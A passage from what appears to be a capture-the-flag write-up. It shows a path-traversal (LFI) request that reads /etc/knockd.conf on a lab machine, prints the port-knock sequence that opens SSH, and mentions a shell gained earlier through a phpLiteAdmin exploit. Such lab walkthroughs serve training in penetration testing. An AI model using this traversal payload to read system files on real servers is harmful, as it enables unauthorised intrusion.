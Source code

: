 ### Alternative path to ports to knock

Knockd configuration file is stored in `/etc/knockd.conf` this file could be included via the LFI, this file could also be found via the shell gained in the phpLiteAdmin exploit.

```http
GET /department/manage.php?notes=files/ninevehNotes/../../../../../../etc/knockd.conf HTTP/1.1

[options]
 logfile = /var/log/knockd.log
 interface = ens33

[openSSH]
 sequence = 571, 290, 911
 seq_timeout = 5
 start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

[closeSSH]
 sequence = 911,290,571
 seq_timeout = 5
 start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn
```
